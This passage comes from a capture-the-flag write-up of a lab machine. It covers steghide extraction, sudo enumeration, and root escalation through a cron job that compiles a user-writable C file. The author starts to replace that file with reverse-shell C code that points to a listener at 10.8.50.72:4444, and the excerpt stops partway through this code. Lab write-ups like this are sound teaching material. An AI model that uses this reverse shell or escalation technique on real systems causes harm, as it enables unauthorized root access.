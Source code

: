 The second picture also contains a secret that we can extract the same way.

~~~
kali@kali:/data/The_Blob_Blog/files$ steghide extract -sf lookatme.jpg 
Enter passphrase: 
wrote extracted data to "whatscooking.txt".
kali@kali:/data/The_Blob_Blog/files$ cat whatscooking.txt 
01001011 01111001 01110011 01110010 01001011 [REDACTED]
~~~

Once decoded (binary > base64 > brainfuck), it shows the following message:

~~~
The stove's timer is about to go off... there are some other timers too...
~~~

### Privileges

Checking `bobloblaw`'s privileges reveals that we can execute commands as `root` without password, but nothing is found on GTFOBins for these binaries.

~~~
bobloblaw@bobloblaw-VirtualBox:~/Desktop$ sudo -l
Matching Defaults entries for bobloblaw on bobloblaw-VirtualBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bobloblaw may run the following commands on bobloblaw-VirtualBox:
    (root) NOPASSWD: /bin/echo, /usr/bin/yes
~~~

## boring program

You have probably noticed the message `You haven't rooted me yet? Jeez` poping all minutes. Running `pspy64` will reveal the following scheduled task:

~~~
2020/09/07 08:45:02 CMD: UID=0    PID=6375   | gcc /home/bobloblaw/Documents/.boring_file.c -o /home/bobloblaw/Documents/.also_boring/.still_boring 
~~~

This task is executed by `root` and compiles the below C source located in our home directory (`/home/bobloblaw/Documents/.boring_file.c`). 

```c 
#include <stdio.h>
int main() {
  printf("You haven't rooted me yet? Jeez\n");
  return 0;

}
```

The resulting binary (`/home/bobloblaw/Documents/.also_boring/.still_boring`) is also executed every minute. Let's replace the content of the file with a root shell:

```c
/* credits to http://blog.techorganic.com/2015/01/04/pegasus-hacking-challenge/ */
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "10.8.50.72"
#define REMOTE_PORT 4444

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
```
